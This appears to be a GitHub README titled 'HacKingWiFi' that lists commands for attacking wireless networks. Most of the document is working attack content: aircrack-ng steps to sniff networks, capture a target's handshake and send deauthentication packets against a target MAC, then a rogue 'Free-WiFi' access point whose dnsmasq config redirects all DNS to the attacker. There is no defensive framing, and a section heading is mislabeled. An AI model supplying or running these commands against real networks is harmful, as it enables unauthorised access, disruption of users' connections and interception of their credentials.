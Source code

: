 # HacKingWiFi
HacKingWiFi 


## Algorithm Commands to HacKing WiFi 

- [1] Choosing Wireless Adapter / Get Interface:
  - [1.1] Cheking for Wireless Network interface: `iwconfig`  
  - [1.2] Cheking for Wireless Network interface: `ifconfig`

- [2] Start Monitoring Mode & Checking Injection Option 
  - [2.1] Starting Monitor mode: `airmon-ng start $INTERFACE`
  - [2.2] Monitoring: `aireplay-ng --test $INTERFACE`
  
- [3] Scan Wireless’s Area
  - [3.1] Sniff Networks Area Information : `airodump-ng $INTERFACE`
  - [3.2] Start Capturing Packets: `airodump-ng --bssid $BSSID -c $CHANNEL_NUMBER -w $OUTPUT_NAME $INTERFACE`
  - [3.3] Inject Packets into Wireless Network: `aireplay-ng --deauth 10 -a $MAC_TARGET $INTERFACE`

- [4] Analysis Captured Files With WireShark:
  - [4.1] Start WireShark: `wireshark $OUTPUT_NAME.cap`
    - Looking for Authentication Files

- [5] Monitor Mode Supported WiFi Chipset/Adapter List :
  - [5.1] Set Up Access Point: `nano dnsmasq.conf`
```SHELL
#Set the wireless interface
interface=wlan0

#Set the IP range for the clients
dhcp-range=192.168.1.2,192.168.1.250,12h

#Set the gateway IP address
dhcp-option=3,192.168.1.1

#Set DNS server address
dhcp-option=6,192.168.1.1

#Redirect all requests to 192.168.1.1
address=/#/192.168.1.1
```

  - [5.2] Set Up Access Point: 2 `nano hostapd.conf`
```SHELL
#Set wireless interface
interface=wlan0

#Set network name
ssid=Free-WiFi

#Set channel
channel=11

#Set driver
driver=nl80211
```
    - 3 `dnsmasq -C /directory_to_dnsmasq.conf`
    - 4 `hostapd /directory_to_hostapd.conf -B`
 
